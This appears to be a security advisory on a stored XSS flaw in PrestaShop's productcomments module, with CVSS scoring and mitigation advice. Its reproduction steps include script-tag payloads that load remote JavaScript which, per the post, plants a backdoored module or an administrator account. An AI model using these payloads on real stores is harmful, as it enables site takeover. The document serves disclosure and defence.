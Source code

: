 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.6)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-02-07
* **Platform**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.6)

Vulnerability by design applied on PrestaShop qualified on productcomments module suffering of [CVE-2022-35933](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35933)

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, Touch Web conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B/B2F, you can preserve a low to medium gravity score specificaly on Prestashop. Nevertheless, be warn that on other solutions, XSS of type 1 can be critical (like Wordpress which suffer of a predictible backoffice's link).

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters : 
> Smarty: `{$value.comment|escape:'html':'UTF-8'}`  Twig: `{\{value.comment|e\}}`(without backslashes)
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.

